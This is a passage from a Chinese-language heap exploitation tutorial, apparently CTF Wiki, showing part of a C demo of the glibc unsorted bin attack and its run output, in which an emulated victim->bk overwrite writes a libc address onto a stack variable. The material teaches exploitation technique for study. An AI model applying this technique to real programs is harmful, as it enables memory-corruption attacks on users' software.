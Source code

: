 ```c
  malloc(400);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                  "this time, target should has already been "
                  "rewrite:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

程序執行後的效果爲

```shell
➜  unsorted_bin_attack git:(master) ✗ gcc unsorted_bin_attack.c -o unsorted_bin_attack
➜  unsorted_bin_attack git:(master) ✗ ./unsorted_bin_attack
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7ffe0d232518: 0

Now, we allocate first normal chunk on the heap at: 0x1fce010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7f1c705ffb78
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffe0d232508

Let's malloc again to get the chunk we just free. During this time, target should has already been rewrite:
0x7ffe0d232518: 0x7f1c705ffb78
```

這裏我們可以使用一個圖來描述一下具體發生的流程以及背後的原理。

![](./figure/unsorted_bin_attack_order.png)
